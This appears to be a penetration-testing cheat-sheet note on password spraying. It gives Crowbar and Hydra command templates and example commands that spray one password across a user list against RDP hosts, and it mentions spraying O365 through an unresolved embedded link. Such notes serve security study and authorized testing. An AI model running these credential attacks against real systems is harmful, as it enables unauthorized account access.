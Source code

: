 -- -
Different ways (tools) to perform password spraying.
### Crowbar
```bash
crowbar -b <protocol> -s <ip/range> -U <userfile> -c '<passwd>'
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```
### Hydra
```bash
hydra -L <userlist> -p '<passwd>' <ip> <protocol>
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### O365 
You can password spray directly ot O365 if the organization uses it. 
![[O365#^10833c]]